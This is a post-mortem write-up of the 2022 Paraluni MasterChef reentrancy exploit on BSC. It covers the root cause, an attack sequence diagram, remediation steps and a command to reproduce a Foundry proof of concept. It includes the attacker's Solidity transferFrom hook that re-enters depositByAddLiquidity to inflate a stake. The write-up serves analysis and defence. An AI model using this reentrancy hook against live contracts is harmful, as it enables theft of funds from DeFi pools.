

# Paraluni MasterChef Exploit — Reentrancy in `depositByAddLiquidity` via Malicious Token

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [ParaProxy](sources/ParaProxy_633Fa7).

---

## Key info

| | |
|---|---|
| **Loss** | ~$1.7M (USDT + BUSD drained from Paraluni MasterChef pools) |
| **Vulnerable contract** | Paraluni `MasterChef` (proxy `0x633Fa7…` / `ParaProxy`) on BSC |
| **Chain / block / date** | BSC / 13,608,182 / Mar 2022 |
| **Bug class** | Reentrancy via a malicious deposit token — `depositByAddLiquidity` transfers an attacker-controlled token *into* the pool while adding liquidity, and the token's `transferFrom` callback re-enters MasterChef to deposit again before accounting settles. |

---

## TL;DR

The attacker deploys an `EvilToken` whose `transferFrom` is hooked: whenever MasterChef pulls it during
`depositByAddLiquidity`, `EvilToken.transferFrom` calls back into MasterChef:

```solidity
function transferFrom(address, address, uint256) external returns (bool) {
    if (address(masterchef) != address(0) && msg.sender != address(masterchef)) {
        usdt.approve(address(masterchef), max);
        busd.approve(address(masterchef), max);
        masterchef.depositByAddLiquidity(18, [usdt, busd], [usdt.balanceOf(this), busd.balanceOf(this)]);
    }
    return true;
}
```

So a single `depositByAddLiquidity` for pool 18 (USDT/BUSD) recursively triggers further deposits while
the MasterChef's `userInfo`/pool accounting for the outer deposit is mid-update. The re-entry inflates
the attacker's `userInfo` stake (and the liquidity added) far beyond the capital actually committed.
The attacker then `redeem()`s (`withdrawAndRemoveLiquidity`) the inflated stake, pulling real USDT +
BUSD out of the pools.

---

## Root cause

A **CEI violation + trusting an external token transfer during a staking deposit**. MasterChef's
`depositByAddLiquidity` swaps/adds liquidity using caller-supplied tokens, which means it executes
`token.transferFrom(…)` on tokens the caller chooses. For a malicious token, that `transferFrom` is a
reentry point, and because MasterChef updates the user's staked position *after* the liquidity add
(the external call), the nested deposit sees/creates a larger position than it should.

Same family as the Cream, Hundred, and many "malicious token reentrancy" staking-pool bugs.

---

## Preconditions

- MasterChef pool that accepts arbitrary/token-pair deposits via `depositByAddLiquidity`.
- Seed USDT/BUSD to fund the initial liquidity (flash-loanable).

---

## Diagrams

```mermaid
sequenceDiagram
    autonumber
    actor A as Attacker
    participant M as MasterChef
    participant E as EvilToken (transferFrom hook)
    participant P as USDT/BUSD pool 18

    A->>M: depositByAddLiquidity(18, [EvilToken, …], amounts)
    M->>E: transferFrom(...)  (during liquidity add)
    E->>M: depositByAddLiquidity(18, [USDT,BUSD], …)  ⚠️ re-enter before accounting settles
    M->>P: add more liquidity; userInfo[attacker] inflates
    M-->>E: return
    A->>M: withdrawAndRemoveLiquidity(inflated stake)
    M-->>A: real USDT + BUSD out
```



---

## Remediation

1. **`nonReentrant`** on all deposit/withdraw functions.
2. **CEI**: update `userInfo` / pool accounting **before** the external token transfer / liquidity add.
3. **Whitelist deposit tokens** — never accept arbitrary caller-supplied token addresses in a staking
   deposit path.
4. **Invariant checks** (total staked == sum of userInfo) after each deposit.

---

## How to reproduce

```bash
_shared/run_poc.sh 2022-03-Paraluni_exp -vvvvv
```

- RPC: BSC archive. `foundry.toml` uses `bnb.api.onfinality.io/public`.
- Result: `[PASS]` — `redeem()` pulls inflated USDT + BUSD to the attacker.

---

*Reference: Paraluni MasterChef reentrancy via malicious token, BSC, Mar 2022 (~$1.7M).*
